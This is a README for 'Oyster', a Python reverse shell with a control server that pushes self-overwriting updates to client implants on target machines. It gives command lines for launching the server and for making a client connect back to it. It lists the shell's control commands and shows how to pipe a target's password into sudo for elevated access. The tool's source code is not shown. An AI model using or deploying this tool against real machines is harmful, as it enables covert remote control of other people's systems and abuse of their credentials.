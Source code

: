 ```python
 .oOOOo.
.O     o.
O       o               O
o       O              oOo
O       o O   o .oOo    o   .oOo. `OoOo.
o       O o   O `Ooo.   O   OooO'  o
`o     O' O   o     O   o   O      O
 `OoooO'  `OoOO `OoO'   `oO `OoO'  o
              o
           OoO'
```

Oyster is a lightweight multi-threaded reverse shell written in python 
3.5.  The server can push updates to the clients, and the clients will
overwrite/restart themselves.

I wrote this after finding an example reverse shell on the thenewboston 
youtube channel.  I saw some things I wanted to improve, so that's what 
I attempted to do.  The clients will continuously try to make a 
connection with the server.

## Control Server

Start `server.py` from the command line.  Here are the keyword arguments 
used for `server.py`:

```
host        - Host IP address.
port        - Host port.
recv_size   - Buffer size for receiving and sending data.
listen      - Maximum number of queued connections.
bind_retry  - How many times to retry binding the socket to the port.
```

### Host Example

All of the arguments provided below are the defaults except `host`, 
which is a blank string as the default.

```
python3 server.py host=0.0.0.0 port=6667 recv_size=1024 listen=10 bind_retry=5
```

## Oyster Shell

The Oyster Shell is the main interface.  It's what you use to select 
which clients you would like to send commands to, and push updates to 
the `client.py` file on the target machine.

Commands for the `Oyster` shell are:

```
list                        -   List the connected clients.

update all                  -   Update all the connected clients using 
                                `update.py`.  Clients will overwrite 
                                themselves and reboot themselves.
                                
use {client_ip}             -   Use a client connection.  {client_ip} 
                                can be found by running the `list` 
                                command.
                                
quit                        -   Shut everything down.
```

### Oyster Shell's `use` Command

The `use` command will set the current connection to the given ip.  Once
this happens, it will drop you into a shell for that connection.  To get
out of the connections shell, run the `quit` command.  This will take 
you back to the `Oyster` shell.

```
Oyster> use 10.0.0.8
/Users/SomeUser/Where/The/Client/Is/Stashed> 
```

### Using `sudo` with connected clients

`echo` the password and pipe it into the `sudo` command with the `-S`
flag.

```
echo "ClientsPassword" | sudo -S chown $USER:admin /usr/local/include
```

You may need to add a newline character to the end of your password.

```
echo "ClientsPassword\n" | sudo -S chown $USER:admin /usr/local/include
```

Check out the `man` pages for `sudo` on the client if this doesn't work.
I'm not sure how much the `-S` flag differs between unix flavours.

## Client

Start `client.py` on the target machine.  It's up to the user to figure
out how to get this to run on startup or whatever.  Here are startup
arguments.

```
host
port
recv_size
```

### Client Example

```
python3 client.py host=10.0.0.215 port=6667 recv_size=1024
```
